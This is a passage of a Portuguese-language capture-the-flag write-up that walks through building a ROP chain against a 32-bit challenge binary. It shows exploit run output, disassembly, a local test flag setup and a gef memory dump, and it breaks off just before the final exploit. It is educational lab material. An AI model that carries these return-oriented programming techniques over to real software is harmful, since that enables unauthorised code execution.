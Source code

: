 E isso nos devolve:

```
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 2347
=========================
what the process returned
Enter your buffer: gotcha func1
gotcha func2
```

Eu poderia supor que a função2 tem o mesmo comportamento de alterar o valor da variável na `.bss` por causa desta instrução:

```raw
80492d7:  c6 80 36 00 00 00 01  mov    BYTE PTR [eax+0x36],0x1
```

E finalmente fazemos o mesmo para a função que tem o `open` com a string `/code/ROP-me/flag.txt`, mas para que este próximo passo funcione temos que ter este arquivo com o caminho exato em nossa máquina, então vou criar:

```raw
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ sudo mkdir -p /code/ROP-me/
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ echo "FLAG TEST" | sudo tee /code/ROP-me/flag.txt
FLAG TEST
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ cat /code/ROP-me/flag.txt
FLAG TEST
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ sudo chmod 777 -R /code
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ ls /code/ROP-me/flag.txt  -l
-rwxrwxrwx 1 root root 10 Aug 31 22:08 /code/ROP-me/flag.txt
```

Agora passamos para a próxima etapa, vamos lembrar como era a função:

<center><img src="post-assets/port-65144-ghidra-1.png" width="732" alt="ghidra" /></center>

OK, as duas primeiras condições eu acho que vão passar, e a última depende do valor param1 que deve ser um valor que ao subtrair `0x01` dele, deve ser igual a `0x01`. Por que `0x01` porque acabei de printar:

```
gef➤  x/x 0x0804c035
0x804c035:  0x00000001
```

Qual valor que subtraindo 1 dele é igual a 1? Este eu vou deixar você encontrar sozinho!

Agora que temos 3 argumentos, precisaremos de um `pop; pop; pop; ret;`, então o exploit final é:
